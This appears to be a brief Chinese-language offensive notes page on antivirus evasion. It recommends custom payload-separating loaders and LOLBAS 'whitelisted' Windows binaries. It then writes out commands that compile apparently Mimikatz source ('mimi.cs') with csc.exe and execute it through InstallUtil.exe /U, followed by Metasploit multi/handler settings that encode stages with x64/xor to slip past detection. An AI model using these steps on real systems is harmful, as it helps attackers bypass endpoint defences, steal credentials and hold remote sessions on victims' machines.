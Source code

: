 # 免杀

0 bookmark tool/avbypass

1 自己写一个加载器，分离免杀

国内杀软的免杀其实还是非常简单直接的，关键在于回连了之后的很多操作依然被hook。

不一定要依赖，其实自己写代码调api就行。

2 使用微软自己的程序   white list : lolbas-project.github.io

C# .net 为什么是神 （误。

```
csc.exe + InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe

msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```
